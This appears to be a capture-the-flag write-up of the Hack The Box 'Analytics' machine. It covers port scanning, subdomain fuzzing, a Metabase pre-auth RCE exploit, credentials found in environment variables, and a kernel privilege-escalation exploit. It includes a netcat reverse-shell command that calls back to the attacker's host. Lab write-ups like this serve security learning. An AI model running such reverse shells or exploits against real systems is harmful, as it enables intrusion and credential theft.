- Machine Name: Analytics
- OS Type: Linux
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Fri Jul  4 18:35:33 2025 as: /usr/lib/nmap/nmap -sVC --open -p- -oN initial/nmap.out -vv 10.10.11.233
Nmap scan report for 10.10.11.233
Host is up, received reset ttl 63 (0.22s latency).
Scanned at 2025-07-04 18:35:40 IST for 93s
Not shown: 65340 closed tcp ports (reset), 194 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  4 18:37:13 2025 -- 1 IP address (1 host up) scanned in 99.85 seconds
```

## Enumeration

### Port 80/HTTP

the only port 80 is open, let’s check it out



we need to add this to /etc/hosts 

```bash
echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts
```

and refresh the page  



i tried directory and file fuzzing using gobuster, but nothing interesting found, as we don’t found any other service so we’ll  try to enumerate subdomains

i’ll use the wfuzz tool for fuzzing subdomain

```bash
wfuzz -u http://analytical.htb/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.analytical.htb" --hh 154
```



nice we found the subdomain - data, let’s add this domain to /etc/hosts



let’s open the data.analytical.htb in the browser



searching for exploit i found - https://www.exploit-db.com/exploits/51797

so it is vulnerable to Pre-Auth RCE, so we don’t need to authenticate in the application, download the exploit and run it against Metabase application



get stable shell using `busybox nc 10.10.14.6 4444 -e /bin/bash`



i’m using my own shell handler to handle the reverse shell https://github.com/0xh3x0x/RevShellCraft 

it looks like we are in docker container

let’s check the environment variables first

```bash
env
```



and we found the username and password for the - `metalytics` user

```bash
ssh metalytics@analytics.htb
```

and get the user.txt



i found that kernel is vulnerable to GameOver(lay) vulnerability



[https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

let’s transfer the exploit to target machine, and run the exploit

